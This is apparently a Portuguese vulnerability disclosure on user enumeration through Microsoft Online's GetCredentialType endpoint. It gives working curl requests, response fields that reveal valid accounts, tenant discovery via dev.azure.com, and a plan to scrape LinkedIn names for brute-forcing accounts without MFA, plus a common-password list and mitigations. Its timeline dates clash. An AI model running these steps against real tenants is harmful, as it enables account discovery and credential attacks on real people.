

Divulgação de Vulnerabilidade: Enumeração de Usuários no Serviço de Autenticação do Microsoft Online
Este documento detalha a descoberta de uma vulnerabilidade no serviço de autenticação do Microsoft Online, o qual permite a enumeração de usuários.
Sumário
A vulnerabilidade permite que um atacante remoto descubra nomes válidos de usuários em aplicações que utilizam o serviço de autenticação do Microsoft Online, podendo ser explorado para realização de ataques direcionados.
A descoberta foi comunicada ao Microsoft Security Response Center (MSRC), sob o external tracking ID microsoft_bounty_1.
- Data da descoberta: 26 de Abril de 2024
- Data da notificação ao MSRC: 27 de Abril de 2024
- Data da análise pelo MSRC: 29 de Junho de 2024
- Data da conclusão pelo MSRC¹: 12 de Junho de 2024
¹ a vulnerabilidade foi devidamente relatada seguindo as diretrizes de divulgação responsável para garantir a mitigação adequada e a proteção de possíveis usuários afetados. Dado que o evento não foi considerado uma vulnerabilidade, torno público o cenário com o intuito de alinhar entendimento sobre quais contextos a vulnerabilidade aqui citada, deve ser considerada um risco.
Detalhamento
- Identificador: CVE-2024-XXXXX¹
- Categoria: Enumeração de Usuários
- Gravidade: Alta
¹ dado que o item não foi considerado uma ameaça, nenhum código CVE foi atribuído até o momento.
Descrição
A enumeração de usuários é uma vulnerabilidade de segurança que permite a um atacante descobrir se determinados nomes de usuário estão presentes em um sistema. Esta vulnerabilidade ocorre quando um aplicativo revela, através de mensagens de erro, respostas diferentes para usuários existentes e não existentes, durante o processo de autenticação, registro ou recuperação de senha.
Impacto
Esta informação, aparentemente inofensiva, pode afetar de forma significativa a segurança da organização, já que a exposição de credenciais de acesso contribuem para o aumento e eficácia de ataques subsequentes, como phishing, engenharia social e força bruta.
🔴 Phishing
Ataque que tenta roubar seu dinheiro ou a sua identidade fazendo com que você revele informações pessoais, tais como números de cartão de crédito, informações bancárias ou senhas em sites que fingem ser legítimos. Criminosos cibernéticos normalmente fingem ser empresas confiáveis, amigos ou pessoas conhecidas em uma mensagem de email falsa, que contém um link para um site de "phishing" (pescar). (Fonte: Suporte Microsoft).
Um subconjunto dessa prática é o spear phishing (pescar na lança), que trata da especialização do ataque, onde os invasores realizam pesquisas extensas sobre os alvos pretendidos. Essa alta personalização visa não só indivíduos, como empresas específicas, ocasionando fraudes financeiras, manipulação de preços de ações, espionagem ou roubo de dados confidenciais para revenda. Podem ser projetados também para infectar dispositivos com malware. (Fonte: Kaspersky Resource Center)
🔴 Engenharia Social
Os ataques de engenharia social manipulam as emoções e os instintos das pessoas de maneiras que comprovadamente a levam a compartilhar informações que não deveriam compartilhar, baixar software que não deveriam baixar, visitar sites que não deveriam visitar, enviar dinheiro para criminosos ou cometer outros erros que comprometam sua segurança pessoal ou organizacional. (Fonte: IBM Think).
Além dos já citados phishing e spear phishing, temos o baiting (iscar pela curiosidade), tailgating (carona no dispositivo desbloqueado), pretexting (o falso samaritano digital), Quid pro quo (serviços desejáveis, porém falsos, em troca da informação), scareware (manipular pelo medo) e watering hole (um serviço real é infectado).
🔴 Força bruta
Um ataque de força bruta usa o método de tentativa e erro para adivinhar informações de login, chaves de criptografia ou encontrar uma página da Web oculta. Invasores trabalham com todas as combinações possíveis na esperança de acertar. (Fonte: Kaspersky Resource Center)
Um subtipo dessa forma de ataque é conhecido como Password Spraying (pulverização de senhas), que consiste na tentativa exaustiva de usar a mesma senha em diversas contas antes de tentar outra. Ataques de pulverização de senhas costumam ser efetivos, porque muitos usuários, além de usarem as mesmas senhas em diferentes serviços, em geral são de simples memorização e fáceis de adivinhar. [Fonte: Kaspersky Resource Center]
Vale destaque aqui para as senhas mais curiosas, utilizadas no Brasil, no ano de 2023:
| Posição | Senha | Ocorrências |
|---|---|---|
| 1º | admin | 204.846 |
| 2º | 123456 | 137.551 |
| 3º | 12345678 | 46.666 |
| 4º | 102030 | 28.034 |
| 5º | 123456789 | 24.834 |
| 7º | gvt12345 | 10.684 |
| 9º | password | 8687 |
| 11º | 123mudar | 8202 |
| 15º | fera@123 | 6364 |
| 20º | Senha | 4762 |
Fonte: Nordpass
Relevância
Políticas robustas de controle de acesso, como multifator ou zero trust, limitam o acesso dos cibercriminosos, mas a falta de respostas uniformes durante este acesso, abre caminho para a vulnerabilidade de enumeração de usuários, cujo risco é reconhecido por várias organizações de segurança:
OWASP (Open Web Application Security Project)
Frequentemente mencionada no OWASP Top 10 e citado nas diretrizes do Authentication Cheat Sheet, podemos destacar aqui suas demais categorias:
- A1:2021 - Broken Access Control
- A7:2021 - Identification and Authentication Failures
- A9:2017 - Using Components with Known Vulnerabilities
NIST (National Institute of Standards and Technology)
A prática é abordada pelo NIST SP 800-63B: Digital Identity Guidelines, tópico 8: Threats and Security Considerations.
ISO (International Organization for Standardization)
Embora não mencione especificamente a enumeração de usuários, as diretrizes de segurança da ISO/IEC 27001 e ISO/IEC 27034 ressaltam, respectivamente, a importância de proteger informações de autenticação e adoção de práticas seguras de desenvolvimento.
SEI CERT (Software Engineering Institute CERT)
O SEI CERT Coding Standards fornece 10 práticas de codificação segura para evitar diversas vulnerabilidades. Dentre elas, vale destaque para o item 8: Practice defense in depth, cuja orientação é assegurar mais de uma camada de proteção, combinando técnicas para reduzir as lacunas de segurança.
CVE (Common Vulnerabilities and Exposures)
Múltiplas entradas de enumeração de usuários são regularmente catalogadas no banco de dados CVE, como WordPress, OpenSSH, GitLab.
- NVD (National Vulnerability Database)
- Acrescenta ao CVE informações adicionais, incluindo classificações de risco (CVSS) e detalhes técnicos sobre a enumeração de usuários.
Vetor de Ataque
A vulnerabilidade foi identificada através de solicitações para o endpoint de autenticação do Microsoft Online, cujo comportamento das respostas pode revelar a existência de usuários.
Método de Exploração
No portal Azure AD (Microsoft Entra ID),
registre uma aplicação através do App Registration
usando como método o Access Token. Conceda as permissões
básicas email e User.Read por meio do Microsoft Graph.
A partir desse registro, você obterá o appId, parâmetro essencial para a construção da url de autenticação que irá identificá-lo
no serviço, conforme a estrutura abaixo:
https://login.microsoftonline.com/{appId}/oauth2/v2.0/authorize
Adicional a isso, incluiremos os parâmetros clientId e code, obtidos durante o fluxo do backend:
?client_id={clientId}&response_type=code&code_challenge={code}
Por fim, os parâmetros fixos:
&code_challenge_method=S256
&redirect_uri=https://minha-aplicacao/successo
&scope=https://graph.microsoft.com/email
&prompt=select_account
&sso_reload=true
No conjunto, a url final será parecido com:
https://login.microsoftonline.com/{appId}/oauth2/v2.0/authorize?client_id={clientId}&response_type=code&code_challenge={code}&code_challenge_method=S256&redirect_uri=https://my.app/success&scope=https://graph.microsoft.com/email&prompt=select_account&sso_reload=true
Metodologia Visual
A url irá te levar até o serviço de autenticação personalizado da aplicação (appId), informando o inquilino (clientId)
solicitante (tenant), exigindo então as credenciais de acesso.
| Tela inicial | Informo dados inválidos | Serviço confirma | Domínio correto, a mensagem muda | Usuário correto, é solicitado a senha |
|---|---|---|---|---|
 |
 |  |
 |
 |
A partir de uma conferência simples das mensagens de erro, sou capaz de enumerar tanto usuários quanto domínios.
Metodologia Programática
Inspecionando o código-fonte do serviço https://login.microsoftonline.com, e analisando os pacotes enviados pela rede,
encontramos o endpoint GetCredentialType. Ao extrair o corpo da requisição, temos isso:
curl --location 'https://login.microsoftonline.com/common/GetCredentialType?mkt=pt-BR' \
--header 'accept: application/json' \
--header 'accept-language: pt-BR,pt;q=0.7' \
--header 'canary: {canaryHash}' \
--header 'client-request-id: {requestGuid}' \
--header 'content-type: application/json; charset=UTF-8' \
--header 'cookie: brcap=0; ESTSSSOTILES=1; AADSSOTILES=1; x-ms-gateway-slice=estsfd; stsservicecookie=estsfd; AADSSO=NA|NoExtension; ESTSAUTHLIGHT=+58498593-a7a2-422b-84bd-ef0fb1c85b0d; CCState={cstateHash}' \
--header 'hpgact: 1800' \
--header 'hpgid: 1104' \
--header 'hpgrequestid: {hpgRequestGuid}' \
--header 'origin: https://login.microsoftonline.com' \
--header 'priority: u=1, i' \
--header 'referer: https://login.microsoftonline.com/{appId}/oauth2/v2.0/authorize?client_id={clientId}&response_type=code&code_challenge={code}&code_challenge_method=S256&redirect_uri=https://minha-aplicacao/successo&scope=https://graph.microsoft.com/email&prompt=select_account&sso_reload=true
--header 'sec-ch-ua: "Brave";v="125", "Chromium";v="125", "Not.A/Brand";v="24"' \
--header 'sec-ch-ua-mobile: ?0' \
--header 'sec-ch-ua-platform: "Windows"' \
--header 'sec-fetch-dest: empty' \
--header 'sec-fetch-mode: cors' \
--header 'sec-fetch-site: same-origin' \
--header 'sec-gpc: 1' \
--header 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36' \
--data-raw '{"username":"abacate@avocado.com.br","isOtherIdpSupported":true,"checkPhones":false,"isRemoteNGCSupported":true,"isCookieBannerShown":false,"isFidoSupported":true,"originalRequest":"{originalRequestHash}","country":"BR","forceotclogin":false,"isExternalFederationDisallowed":false,"isRemoteConnectSupported":false,"federationFlags":0,"isSignup":false,"flowToken":"{flowToken}","isAccessPassSupported":true}'
Embora o conjunto de cabeçalhos e parâmetros sejam elevados, alguns deles sugerem ter algum tratamento seguro quanto ao envio,
como é o caso do requestGuid, cstateHash, hpgRequestGuid, originalRequestHash ou flowToken. Contudo, nenhum deles é
de fato necessário na requisição.
Uma vez que não há verificação dessas partes, nem consistência do objeto quanto a sua manipulação, podemos enxugá-lo:
curl --location 'https://login.microsoftonline.com/common/GetCredentialType?mkt=pt-BR' \
--header 'Content-Type: application/json' \
--header 'Cookie: fpc=Avu1jfhsb2hEhMRueZ1yZ9Q; stsservicecookie=estsfd; x-ms-gateway-slice=estsfd' \
--data-raw '{
"username": "abacate@avocado.com.br"
}'
Independente de qual formato você use, ambos irão retornar a seguinte estrutura:
{
"Username": "",
"Display": "",
"IfExistsResult": 0,
"IsUnmanaged": false,
"ThrottleStatus": 0,
"Credentials": {},
"DfpProperties": {},
"EstsProperties": {},
"IsSignupDisallowed": false,
"apiCanary": ""
}
Mais uma vez, não precisamos nos concentrar no excesso, portanto, vamos mirar apenas nos campos IfExistisResult (garante a existência) e
ThrottleStatus (algum tipo de erro). Automatizando essas requisições, encontramos o seguinte padrão:
- Se usuário e domínio não existirem,
IfExistisResulteThrottleStatusserão1; - Se usuário não existir, mas o domínio existir,
IfExistisResultserá1eThrottleStatusserá0; - Se usuário e domínio existem,
IfExistisResulteThrottleStatusserão0;
Com isso, verificamos pela segunda vez que é possível identificar usuários através do serviço.
Obs: há outras mudanças no json que colaboram com a identificação, mas optei pelos itens acima por brevidade.
Metodologia Expandida
Considerando que o serviço Azure DevOps também usa o Microsoft Online, e sua url é acessível através de https://dev.azure.com/{nomeDaOrganizacao},
podemos fazer um web scrapping numa rede social, como o LinkedIn, e obter o nome principal de cada empresa.
Com isso, testamos até obter um HttpStatus 200:
https://dev.azure.com/mcdonalds
https://dev.azure.com/samsung
https://dev.azure.com/ibm
https://dev.azure.com/suaempresa
...
https://dev.azure.com/microsoft
Após encontrar o alvo, basta aplicar qualquer uma das metodologias descritas:
| Usuário não existe no domínio | Usuário existe e me é solicitado a senha |
|---|---|
 |
 |
Além de nomes óbvios como o demonstrado acima, podemos fazer outro web scrapping no LinkedIn, porém focado nos funcionários da
empresa alvo. A partir dos nomes e sobrenomes, é possível gerar todas as combinações (incluindo hífen, underscore ou ponto)
através do hashcat. Com a massa de dados pronta, basta deixar a força bruta agir através do
Aquele usuário que não tiver um 2º fator de segurança, fatalmente estará sujeito a ter suas credenciais quebradas.
Mitigação e Recomendações
Dentre as organizações e padrões de segurança existente, cito abaixo as que identificam a enumeração de usuários como uma vulnerabilidade de risco:
- Respostas Uniformes: implementar respostas de erro padronizadas sem revelando detalhes sobre sua existência.
- Verificações contra adulteração: avaliações robustas na requisição devem garantir que o evento não possa ser explorado.
- Rate Limiting: aplicar limites de taxa em tentativas de login para dificultar a exploração automatizada.
- Monitoramento e Auditoria: registrar tentativas de login falhadas para identificar possíveis atividades suspeitas.
Referências
- ISO 27034-1: Information technology — Security techniques — Application security — Part 1: Overview and concepts
- SEI CERT Coding Standard for C
- OWASP Authentication Cheat Sheet
- NIST SP 800-63B: Digital Identity Guidelines
Conclusão
A descoberta desta vulnerabilidade no serviço de autenticação do Microsoft Online ressalta a importância contínua de revisões de segurança e conformidade com padrões internacionais. A mitigação rápida e eficaz é crucial para proteger os usuários e prevenir exploração maliciosa.
A vulnerabilidade foi identificada através de uma análise de segurança seguindo os padrões OWASP, NIST, ISO 27034 e SEI CERT Coding Standard.